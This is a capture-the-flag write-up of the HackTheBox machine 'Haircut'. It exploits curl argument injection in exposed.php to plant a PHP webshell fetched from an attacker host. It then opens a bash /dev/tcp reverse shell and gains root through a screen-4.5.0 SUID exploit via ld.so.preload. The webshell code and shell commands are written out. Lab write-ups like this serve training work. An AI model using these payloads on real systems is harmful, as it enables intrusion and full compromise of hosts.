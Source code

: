 ```yaml
---
title: HTB - Haircut
date: 2023-08-12 22:30:00 -0500
categories: [Writeups, HackTheBox]
tags: [writeup, hacking, linux] # TAG names should always be lowercase
---
```


## Machine info

Haircut is a fairly simple machine, however it does touch on several useful attack vectors. Most notably, this machine demonstrates the risk of user-specified CURL arguments, which still impacts many active services today.

<p style="text-align: center;"><a href="https://app.hackthebox.com/machines/Haircut" target="_blank">https://app.hackthebox.com/machines/Haircut</a></p>

![info-card](assets/img/hack-the-box/haircut/haircut-info_card.png){: width="700" }
_Info card_

## Enumeration

We begin our ennumeration by searching for open ports with nmap tool.

```console
sudo nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.10.24 -oG allPorts
```

![nmap-port-scan](assets/img/hack-the-box/haircut/haircut-nmap_port_scan.png)
_Nmap port scan_

We find ports 22 (ssh) and 80 (http) open, so we first take a look at the webserver running on port 80.

![webserver](assets/img/hack-the-box/haircut/haircut-webserver.png)
_Werserver on port 80_

Wappalyzer web extension show us that the site's programming language is PHP, which is valuable information at the time of doing web enumeration.

![wappalyzer info](assets/img/hack-the-box/haircut/haircut-wappalyzer.png)
_Wappalyzer info_

We do a web scan using the tool <a href="https://github.com/epi052/feroxbuster" target="_blank">feroxbuster</a> in order to discover directories and files with the extension php on the webserver's root path.

```console
feroxbuster -u http://10.10.10.24/ -x php -t 200
```

![feroxbuster](assets/img/hack-the-box/haircut/haircut-feroxbuster.png)
_Feroxbuster scan_

## Gaining a foothold

The results of feroxbuster lead us to a file called `exposed.php` which allows an SSRF vulnerability that let us process requests against localhost inside the webserver machine.

![exposed-php](assets/img/hack-the-box/haircut/haircut-exposed_php.png)
_/exposed.php_

The output from processing the request seems like one of the command `curl`, so we make some tests and find out that our input is being concatenated to a curl command execution.
We can take advantage of this in order to manipulate the command to fetch a request against our attacking machine and save a malicious file inside the webserver adding the `-o` parameter to the command to save the output to a file.

```
http://<ATTACKING-IP>/php-webshell.php -o /var/www/html/uploads/php-webshell.php
```

This way we upload a webshell, which we can access through the path `/uploads/php-webshell.php`{: .filepath} of the webserver.<br>
This is the payload of our php webshell in which we can execute commands via the cmd parameter.

```php
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```
{: file="php-webshell.php" }

![webshell](assets/img/hack-the-box/haircut/haircut-webshell.png)
_PHP webshell_

Now that we have RCE on the victim machine, we can send us a reverse shell for convenience.

```
bash -c 'bash -i 1>%26 /dev/tcp/<ATTACKER-IP>/<PORT> 0>%261'
```

![reverse-shell](assets/img/hack-the-box/haircut/haircurt-reverse_shell.png)
_Reverse shell connection_

## Privilege escalation

In order to escalate privileges we check for files with SUID permission.

```console
find / -user root -perm /4000 2>/dev/null
```

![suid-binaries](assets/img/hack-the-box/haircut/haircut-suid.png)
_www-data SUID binaries_

We find an unusual binary `screen-4.50` with the SUID permission, so we look for an <a href="https://www.exploit-db.com/exploits/41154" target="_blank">exploit</a> and luckily find one.<br>
We try to run it on the victim machine, but gcc seems to be broken, so we follow the compilation steps of the script locally on our attacking machine. That should leave us with two files, `lihax.so` and `rootshell` that we have to transfer to the victim machine on the `/tmp`{: .filepath} directory. Now there we finish to execute the commands from the script.

```console
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
screen -ls
/tmp/rootshell
```

![priv-esc](assets/img/hack-the-box/haircut/haircut-priv_esc.png)
_Exploit commands execution_

And that way we gain a root shell on the victim machine.<br>
The flags for user and root can be found on `/home/marie/user.txt`{: .filepath} and `/root/root.txt`{: .filepath} respectively.
